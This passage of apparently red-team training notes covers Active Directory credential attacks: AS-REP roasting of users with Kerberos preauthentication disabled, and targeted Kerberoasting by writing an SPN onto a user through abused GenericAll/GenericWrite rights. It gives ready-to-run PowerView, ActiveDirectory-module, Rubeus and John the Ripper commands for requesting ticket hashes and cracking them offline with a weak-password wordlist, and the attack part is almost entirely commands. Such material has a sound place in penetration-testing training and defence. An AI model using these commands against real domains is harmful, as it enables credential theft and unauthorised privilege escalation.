 Request encrypted AS-REP for offline brute-force.

Let's use ASREPRoast -

```
Get-ASREPHash -UserName VPN1user -Verbose
```

To enumerate all users with Kerberos preauth disabled and request a hash -

```
Invoke-ASREPRoast -Verbose
```

We can use John The Ripper to brute-force the hashes offline -

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worstpass.txt C:\AD\Tools\asrephashes.txt
```

### Targeted Kerberosting - Set SPN

* With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).
* We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".

Enumerate the permissions for RDPUsers on ACLs using PowerView -

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

Using Powerview, see if the user already has a SPN -

```
Get-DomainUser -Identity supportuser | select serviceprincipalname
```

Using ActiveDirectory module -

```
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

Set a SPN for the user (must be unique for the domain) -

```
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
```

Using ActiveDirectory module -

```
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}
```

Finally, Kerberoast the user -->

```
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worstpass.txt C:\AD\Tools\targetedhashes.txt
```
